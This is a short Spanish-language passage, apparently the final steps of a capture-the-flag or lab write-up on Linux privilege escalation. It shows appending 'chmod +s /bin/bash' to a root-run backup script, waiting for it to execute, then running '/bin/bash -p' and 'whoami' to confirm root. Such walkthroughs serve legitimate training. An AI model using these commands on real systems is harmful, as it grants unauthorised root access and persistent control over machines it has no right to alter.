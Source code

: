 Y nos mostrara esto:

``` 
**-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash**
```

Colocamos el siguiente comando:

``` 
echo 'chmod +s /bin/bash' >> /var/backups/backup.sh
```

Ya despues esperamos algo de 1 minuto y volvemos a lanzar **ls -la /bin/bash**

Se nos debera mostrar sombreado de rojo

Y ya para terminar lanzamos este comando **/bin/bash -p**

Y despues un **whoami** y nos debera mostrar que somos **root**

![alt text](image-41.png)

Y ya con esto finalizamos.
